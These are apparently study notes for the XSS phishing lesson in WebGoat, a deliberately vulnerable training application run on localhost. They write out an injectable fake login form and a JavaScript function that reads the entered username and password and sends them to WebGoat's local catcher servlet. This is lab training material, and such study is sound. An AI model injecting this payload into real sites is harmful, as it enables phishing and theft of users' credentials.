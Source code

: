 ### Launch webgoat:
```shell
cd ~/Downloads/
java -jar webgoat-container-7.1-exec.jar
```

### Watch the pretty terminal output. Then point your browser to:

[http://localhost:8080/WebGoat][1]

[1]:http://localhost:8080/WebGoat

# Webgoat XSS Notes
Inject HTML and JS to phish user credentials.

First inject the HTML into the Search input field to create a form just below it:

```html
<form name="phish"><br><br><HR><H3>This feature requires account login:</H2><br><br>Enter Username:<br><input type="text" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br></form><br><br><HR>
  ```
Add a button that can POST a request:
```html
<input type="submit" name="login" value="login">
```
The HTML for the `submit` button has to go in the HTML before the closing `</form>` tag.
Also, you have to put an `onclick` handler before closing this last `input` tag.

```html
onclick="hack()"
```
So now the last `input` tag looks like this:

```html
<input type="submit" name="login" value="login" onclick="hack()">
```

At this point the injected HTML form looks like this:

```html
<form name="phish"><br><br><HR><H3>This feature requires account login:</H2><br><br>Enter Username:<br><input type="text" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br><input type="submit" name="login" value="login" onclick="hack()"></form><br><br><HR>
```

But of course this means that you have to create a Javascript function called `hack()`. This function will pull the credentials from the webpage and post them to the WebGoat catcher servlet, which is running locally.

```javascript
<script>
function hack(){
  // Instantiate a new DOM image element which we'll use for...
  XSSImage=new Image; XSSImage.src="<http://localhost:8080/WebGoat/catcher?PROPERTY=yes&user=" + \
  document.phish.user.value> + "&password=" + document.phish.pass.value + "";
  // Pop up an alert() to display the victim's username and password.
  alert("Had this been a real attack... Your credentials were just stolen. \
  User Name = " + document.phish.user.value + " Password = " + \
  document.phish.pass.value);
  }
</script>
```

And post it to the local capture page:
```
http://localhost:8080/WebGoat/capture/PROPERTY=yes&ADD_CREDENTIALS_HERE
```  
